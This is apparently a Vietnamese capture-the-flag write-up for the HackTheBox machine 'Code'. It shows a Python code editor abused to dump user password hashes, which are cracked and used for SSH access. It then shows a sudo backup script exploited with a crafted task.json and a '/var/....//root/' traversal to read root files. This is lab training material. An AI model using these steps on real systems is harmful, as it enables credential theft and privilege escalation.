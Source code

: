 ![image](https://hackmd.io/_uploads/rk1CsHWR1l.png)

# Machine info and Comment
## Machine info
Đây là một máy đang active nên chưa có thông tin về máy này [Link](https://app.hackthebox.com/machines/653)

## Comment
Thêm một máy tận dụng tính năng vốn có của tool để leo quyền đồng thời gặp lại SSTI. 

# Recon
## nmap
```
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open http Gunicorn 20.0.4
|_http-title: Python Code Editor
```

Ta có thể thấy port 5000 đang chạy Python Code Editor. Điều này có thể cho phép ta chạy command trên hệ thống. Nếu có thể thực thi thì khả năng cao sẽ kiểm soát hệ thống được

# User + Root flag
## Python Code Editor
Vì Editor cho phép thực thi các command của Python, ta cố gắng dump từ databse của hệ thống bằng một query đơn giản
```python
print([(user.id, user.username, user.password) for user in User.query.all()])
```

Kết quả nhận được 
```
(1, 'development', '759b74ce43947f5f4c91aeddc3e5bad3')
(2, 'martin', '3de6f30c4a09c27fc71932bfc68474be')
```

## CrackStation
Sử dụng [CrackStation](https://crackstation.net/) ta sẽ có được credential của 2 user 

![image](https://hackmd.io/_uploads/HJlT7IbAyx.png)

## SSH
ssh vào user `martin` 
```
ssh martin@10.10.11.62
```

## backy\.sh
Sau khi ssh `martin`, ta tìm thấy một tập lệnh nằm tại `/usr/bin/backy.sh` và cat nội dung của nó

![image](https://hackmd.io/_uploads/ByaIsPbC1g.png)

Nội dung đây:

![image](https://hackmd.io/_uploads/HyUdiPbA1g.png)

Tóm gọn về hoạt động của nó như sau:
- Script lấy file task.json làm đầu vào để quyết định những file nào
cần được sao lưu
- Nó chạy với quyền sudo, nghĩa là nó cókhả năng truy cập các file bị hạn chế
- Nó chỉ cho phép sao lưu các file từ các thư mục cụ thể (/var/ và /home/),nhưng ta có thể thao túng nó

## task.json
Sửa file để lấy user flag
```
{
"destination": "/home/martin/",
"multiprocessing": true,
"verbose_log": false,
"directories_to_archive": [
"/home/app-production/user.txt"
],
"exclude": [
".*"
]
}
```
Sau đó bắt đầu chạy script
```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json

martin@code:~/backups$ tar -xjf code_home_app-production_user.txt_2025_March.tar.bz2

martin@code:~/backups$ cat user.txt
```

Tương tự để lấy được root flag
```
{
"destination": "/home/martin/",
"multiprocessing": true,
"verbose_log": true,
"directories_to_archive": [
"/var/....//root/"
]
}
```

```
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json
martin@code:~/backups$ tar -xjf code_var_..._root_root.txt_2025_March.tar.bz2
martin@code:~/backups$ cat root.txt
```

------------------------------------------ Code has been Pwned! ------------------------------------------

![image](https://hackmd.io/_uploads/rknkTwbRJx.png)
